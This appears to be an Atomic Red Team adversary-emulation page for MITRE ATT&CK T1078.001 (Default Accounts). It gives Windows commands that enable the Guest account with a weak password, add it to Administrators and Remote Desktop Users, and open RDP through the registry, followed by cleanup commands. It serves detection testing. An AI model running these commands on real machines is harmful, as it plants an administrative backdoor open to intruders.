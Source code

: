 # T1078.001 - Default Accounts
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1078.001)
<blockquote>Adversaries may obtain and abuse credentials of a default account as a means of gaining Initial Access, Persistence, Privilege Escalation, or Defense Evasion. Default accounts are those that are built-into an OS, such as the Guest or Administrator accounts on Windows systems or default factory/provider set accounts on other types of systems, software, or devices.(Citation: Microsoft Local Accounts Feb 2019)

Default accounts are not limited to client machines, rather also include accounts that are preset for equipment such as network devices and computer applications whether they are internal, open source, or commercial. Appliances that come preset with a username and password combination pose a serious threat to organizations that do not change it post installation, as they are easy targets for an adversary. Similarly, adversaries may also utilize publicly disclosed or stolen [Private Keys](https://attack.mitre.org/techniques/T1552/004) or credential materials to legitimately connect to remote environments via [Remote Services](https://attack.mitre.org/techniques/T1021).(Citation: Metasploit SSH Module)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Guest account with RDP capability and admin priviliges](#atomic-test-1---enable-guest-account-with-rdp-capability-and-admin-priviliges)


<br/>

## Atomic Test #1 - Enable Guest account with RDP capability and admin priviliges
After execution the Default Guest account will be enabled (Active) and added to Administrators and Remote Desktop Users Group, and desktop will allow multiple RDP connections
**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user guest /active:yes
net user guest Password123!
net localgroup administrators guest /add
net localgroup "Remote Desktop Users" guest /add
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
```

#### Cleanup Commands:
```cmd
net user guest /active:no
net localgroup administrators guest /delete
net localgroup "Remote Desktop Users" guest /delete
reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f
reg delete "hklm\system\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /f
```





<br/>
